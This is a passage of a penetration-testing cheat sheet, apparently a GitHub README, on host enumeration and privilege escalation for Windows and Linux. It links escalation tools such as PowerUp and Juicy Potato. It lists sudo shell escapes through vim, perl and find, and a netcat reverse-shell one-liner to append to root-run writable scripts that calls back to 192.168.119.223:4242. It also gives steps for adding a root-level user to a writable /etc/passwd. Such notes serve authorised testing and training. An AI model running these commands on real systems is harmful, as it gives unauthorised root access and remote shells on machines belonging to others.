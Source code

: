 ```nc -l -p 1234 > out.file```
- dpkg -l (Debian based OSs) Something to also keep in mind, anything that has been manually installed/compiled will NOT show up here (might want to check "/var/", "/opt/", "/usr/local/src" and "/usr/src/" for common places - else users home folder's or mounted external media etc! 
- rpm -qa (CentOS / openSUSE )
- uname -a


## Privilege Escalation
### Windows Privilege Escalation
* Check for missing patches for exploitation: ``` wmic qfe get Caption,Description,HotFixID,InstalledOn ```

Description | Link
------------ | -------------
| PowerUp by harmj0y | 								https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc |
| Potato by foxglovesec | 							https://github.com/foxglovesec/Potato |
| Tater (powershell implementation of Potato) | 	https://github.com/Kevin-Robertson/Tater |
| SessionGopher | 									https://github.com/Arvanaghi/SessionGopher |
| Watson | 											https://github.com/rasta-mouse/Watson |

* Check ```whoami /priv``` 
If SeImpersonatePrivilege is available, use Juicy Potato.

* To change integrity level to high even as admin:	``` powershell.exe Start-Process cmd.exe -Verb runAs ```


### Linux Privilege Escalation
* Use id command to see if you're in the sudo group.
* If in sudo group, find what sudo can do:		sudo -l
	* If different shells are available, run those as root
	* If VIM is available, enter vim and type :!bash to exit into root shells
	* If perl is available, type perl -e 'exec "/bin/bash";'
	* If find is available, type find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}'\;


#### One liner to add to writeable scripts running as root:	
``` echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1| nc 192.168.119.223 4242 >/tmp/f" >> user_backups.sh ```

#### If Linux /etc/passwd is writeable, follow these steps:
1. Create password hash: ```openssl passwd evil```
2. Append proper syntax using new hash: ```echo "root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash" >> /etc/passwd```
3. Switch users: ```su root2```


